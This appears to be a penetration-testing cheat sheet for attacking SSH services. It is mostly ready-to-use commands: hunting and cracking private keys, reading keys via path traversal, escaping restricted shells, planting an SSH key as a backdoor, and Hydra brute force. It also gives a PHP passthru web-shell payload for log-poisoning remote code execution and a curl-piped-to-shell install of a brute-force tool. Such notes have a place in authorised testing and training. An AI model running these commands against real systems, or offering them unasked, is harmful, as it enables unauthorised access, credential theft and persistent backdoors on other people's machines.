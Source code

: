 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have alid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
``` echo os.system("/bin/bash")```
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR
ssh user@$IP "/bin/sh"
```

#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

#### Command Reference
<b> Search for files containing SSH Keys:</b>
```
grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -ir "BEGIN DSA PRIVATE KEY" /*
```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt
```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```
ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name
```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```
ssh -i new-key-name user@$IP
```

### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```
ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname
```

#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed


#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>

